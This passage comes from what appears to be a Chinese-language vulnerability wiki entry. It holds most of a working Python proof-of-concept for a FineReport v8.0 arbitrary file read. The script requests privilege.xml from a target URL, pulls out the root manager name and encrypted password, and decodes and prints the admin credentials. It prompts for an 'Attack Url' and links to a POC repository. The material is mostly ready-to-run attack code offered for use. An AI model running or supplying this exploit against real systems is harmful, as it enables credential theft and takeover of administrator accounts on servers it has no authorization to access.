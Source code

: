 ```python
    except Exception as e:
        print("\033[31m[x] 目标漏洞无法利用 {} \033[0m".format(e))
        sys.exit(0)

def POC_2(vuln_url_fileread):
    vuln_url = vuln_url_fileread + "?op=chart&cmd=get_geo_json&resourcepath=privilege.xml"
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, verify=False, timeout=5)
        print("\033[32m[o] 正在访问: {} \033[0m".format(vuln_url))
        if "rootManagerPassword" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标存在漏洞,读取敏感文件 \n{} \033[0m".format(response.text))
            user_name = re.findall(r'<!\[CDATA\[(.*?)]]></rootManagerName>', response.text)
            cipher = re.findall(r'<!\[CDATA\[(.*?)]]></rootManagerPassword>', response.text)
            password = decode_passwd(cipher[0])
            print("\033[34m[o] 后台账户密码为:{} {} \033[0m".format(user_name[0], password))
        else:
            print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)


```

![](http://wikioss.peiqi.tech/vuln/fan-5.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## Goby & POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> FineReport_v8.0_Arbitrary_file_read_

![](http://wikioss.peiqi.tech/vuln/fan-6.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)